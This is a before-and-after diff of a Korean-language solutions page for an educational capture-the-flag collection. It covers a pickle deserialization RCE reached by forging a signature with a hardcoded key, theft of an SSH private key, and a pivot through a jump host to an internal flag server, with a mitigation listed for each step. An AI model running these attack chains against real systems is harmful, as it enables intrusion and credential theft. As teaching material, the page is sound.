

Before and after one commit to JaewookYou/arang-edu-challs-collection, a Markdown page: solution/SOLUTIONS.md, the part around one of its changes. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/solution/SOLUTIONS.md
+++ b/solution/SOLUTIONS.md
@@ -281,19 +331,6 @@ curl -s "http://localhost:9711/sys/exec-9f3a?key=Zx9_d3c0mp1l3_th1s_k3y_2026&cmd
 ```
-- **대응**: 각 인증요소를 인증 대상(세션)과 강하게 바인딩 · 인증코드 비노출.
-
-### secret-tunnel (:8090, SSH :2222) — 캡스톤 (역직렬화 RCE → SSH 피벗)
-- **취약점**: `extserver` `/process` 가 서명검증 후 `pickle.loads(base64decode(data))` → **역직렬화 RCE**. 서명키 `SECRET_KEY="very_secret_key_do_not_guess"` 가 소스에 하드코딩 → `md5(data+KEY)` 로 **서명 위조 가능**.
-- **풀이(체인)**:
-```
-1) 위조 서명 + 악성 pickle 으로 RCE:
-   data = base64( pickle.dumps(<__reduce__ 로 명령 실행하는 객체>) )   # 문자열 'pickle' 만 회피
-   sig  = md5(data + "very_secret_key_do_not_guess").hexdigest()
-   POST /process   data=<data>&signature=<sig>     → extserver 에서 명령 실행
-2) extserver 의 SSH 키(id_rsa)로 intserver 피벗(SSH 터널):
-   ssh -i id_rsa ... intserver   (extserver↔intserver)
-3) intserver 에서 내부전용 flagserver 접근(internal_network) → /flag.txt
-```
-- **대응**: 신뢰경계 입력에 pickle 금지(JSON/안전한 포맷) · 서명키 비공개 · 내부망 접근통제.
+> 사람이 직접 풀 땐: RCE 로 `id_rsa` 를 빼낸 뒤 `ssh -i id_rsa -p2222 appuser@<host>` 로 extserver 접속 → 위와 동일하게 `-J ctfuser@intserver flaguser@flagserver` 점프(터널)로 내부 flagserver 접근.
+- **대응**: 신뢰경계 입력에 `pickle` 금지(JSON 등 안전 포맷) · 서명키/자격증명 비공개·분리 · 내부망 접근통제·점프호스트 최소권한(restricted shell 만으론 터널 못 막음 → `AllowTcpForwarding no`).
 
 ---
 
````
Also changed, not shown: other parts of solution/SOLUTIONS.md (+61 -11 lines).
